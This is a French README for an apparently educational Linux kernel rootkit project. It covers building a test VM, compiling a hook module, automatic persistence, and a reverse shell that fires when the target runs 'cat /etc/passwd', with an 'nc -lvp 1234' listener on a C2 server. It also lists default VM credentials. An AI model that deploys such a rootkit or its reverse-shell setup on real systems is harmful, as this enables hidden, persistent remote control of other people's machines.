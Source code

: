 # RootKit

- Réalisation d'un rootkit
- Automatisation de la création d'un système LFS Alpine pour tester le rootkit
- Comprehension et implémentation des mécanismes de camouflage
- Mise en place de la persistence du rootkit

### Installation et utilisation

#### 0. IMPORTANT
Ces scripts fonctionnent sur une architecture Arch Linux, si vous êtes sur debian vous devrez certainement changer quelques lien vers vos fichiers.

#### 1. Cloner le dépôt avec les sous-modules

L'utilisation des sous-modules Git nous permet d'inclure les sources du noyau Linux.
```bash
git clone --recurse-submodules git@github.com:ROYERidk/RootKit.git
cd Rootkit
```

#### 2. Compiler le noyau Linux :

Si c'est la première fois:
  - make first-time-setup

Sinon
  - make Kernel

#### 3. Compiler le rootkit (Optionnel)

Le rootkit au format *.c* nommé *hook.c* doit-être placé dans la racine du répertoire

`make default` compilera le rootkit en *.ko* avec le noyau linux de la VM pour qu'il n'y ai pas de problèmes de compatibilités entre la compilation sur notre machine et l'utilisation du module sur notre VM.

PS : ne pas oublier de modifier l'adresse IP du serveur C2 dans hook.c (on utilise ici une IP privée pour le POC)

#### 4. Creation de l'image disque et lancement de la VM

`make disk` va crée l'image disque, si le dossier *vm* n'est pas dans la racine de votre dépôt crée le avant.
`make vm` va regarder si l'image existe pour pouvoir lancé la vm, si oui il boot la vm avec QEMU sinon il crée l'image disque puis boot la vm.

#### 5. Login

root:root
user:user

#### 6. Utilisation du rootkit

Nous avons entièrement automatisé l'injection et la persistance du rootkit lors de la création de l'image disque, aucune action n'est donc nécessaire pour charger le module.
Le principe de déclenchement de ce rootkit est de lire un fichier quelconque via la commande cat pour que le reverse shell s'exécute, par exemple :

`cat /etc/passwd` sur la machine cible
`nc -lvp 1234` sur le serveur C2

